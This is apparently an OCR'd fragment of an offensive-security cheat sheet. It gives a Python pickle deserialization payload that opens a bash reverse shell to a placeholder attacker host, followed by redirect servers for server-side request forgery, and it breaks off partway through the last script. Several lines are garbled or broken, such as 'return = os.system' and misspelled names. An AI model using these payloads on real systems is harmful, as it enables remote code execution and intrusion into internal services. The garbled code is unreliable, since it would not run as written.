 ```python
import base64
import pickle
import os

class RCE:
	def __reduce__(self):
		cmd = ("/bin/bash -c 'exec bash -i &>/dev/tcp/<LHOST>/<LPORT> <&1'")
		return = os.system, (cmd, )

if __name__ == '__main__':
	pickle = pickle.dumps(RCE())
	print(bas64.b64encode(pickled))
```

#### Python Redirect for Server-Side Request Forgery (SSRF)

```python
#!/usr/bin/python3
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

class Redirect(BaseHTTPRequestHandler):
  def do_GET(self):
      self.send_response(302)
      self.send_header('Location', sys.argv[1])
      self.end_headers()

HTTPServer(("0.0.0.0", 80), Redirect).serve_forever()
```

```c
sudo python3 redirect.py http://127.0.0.1:3000/
```

```python
#!/usr/bin/env python

import SimpleHTTPServer
import SocketServer
import sys
import argparse

def redirect_handler_factory(url):
    """
    returns a request handler class that redirects to supplied `url`
    """
    class RedirectHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
       def do_GET(self):
           self.send_response(301)
           self.send_header('Location', url)
           self.end_headers()

       def do_POST(self):
           self.send_response(301)
           self.send_header('Location', url)
           self.end_headers()

    return RedirectHandler


def main():

    parser = argparse.ArgumentParser(description='HTTP redirect server')

```